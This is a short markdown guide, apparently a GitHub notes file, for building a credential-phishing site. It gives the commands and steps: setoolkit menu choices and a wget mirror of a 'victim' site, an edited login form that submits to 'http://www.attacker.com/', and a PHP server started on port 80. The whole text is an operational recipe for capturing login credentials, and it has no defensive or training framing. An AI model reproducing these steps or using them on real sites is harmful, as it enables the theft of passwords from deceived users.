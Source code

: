 Use setoolkit to clone website
----------------------------
```bash
setoolkit
1, 2, 3, 2
[Enter]
https://site.toclone.com
# copy files from the ~/.set/ directory to working directory
```
Use wget to clone website
---------------------------
```bash
wget --no-check-certificate --convert-links --random-wait -r -p -E -e robots=off -U mozilla https://www.victim.com
```
Modify login page to use GET rather then POST method
----------------------------------------------------
```
Copy index.html (or equivalent) to working directory
Open index.html in text editor and search for attacking domain name or ip address
eg...
<form name="login" id="login_form" method="post" action="http://www.attacker.com/" autocomplete="off">
change "method="post" to "method="get"
```
Start attackers phishing website
--------------------------
```bash
php -S xxx.xxx.xxx.xxx:80
```
